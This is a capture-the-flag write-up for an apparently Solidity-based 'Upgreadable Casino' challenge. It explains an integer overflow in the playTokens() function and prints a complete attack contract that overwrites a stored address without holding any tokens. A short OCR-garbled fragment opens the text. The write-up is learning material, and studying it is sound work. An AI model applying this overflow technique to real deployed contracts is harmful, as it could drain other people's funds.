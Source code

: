 ```  
0x 5aB8C62A 01b00f57f6C35c58 fFe7B64777749159  
 I Black  I  Slot Machine  I    Roulette  
```

### 2. Integer overflow

In the playTokens() function all token ammounts we want to add together are
added together and then checked if the total is smaller than our balance. But
there is no check for integer Overflows. So if we would for example aDD
0xFFFFFFFFFFFFFFFF and 0x0000000000000001 it would result in
0x0000000000000000

## 3. Exploit

We can use both of these to exploit. We can use the 4th variable (poker)
together with the overflow to be able to overwrite arbitrary parts of the
address without needing to own any tokens at all. Below you can see my attack
contract:

```  
// SPDX-License-Identifier: MIT

pragma solidity ^0.7.6;

import "./Casino.sol";

contract Attack  
{  
   Casino target;

   constructor(address _target)  
   {  
       target = Casino(_target);  
   }

   function missionOverWrite() public  
   {  
       target.playTokens(0xfd48b1cf88b15bdd, 0, 0, 0x2b74e30774ea423);  
       target.playTokens(0, 0x5f54b6656fc56e05, 0, 0xa0ab499a903a91fb);  
       target.playTokens(0, 0, 0x7746d726, 0xffffffff88b928da);  
   }  
}  
```  
Now you just need to deploy this contract and call missionOverWrite()

--> Flag

Original writeup
(https://github.com/J4X-98/Writeups/blob/main/CTFs/DavinciCTF%202023/Upgreadable%20Casino/writeup.md).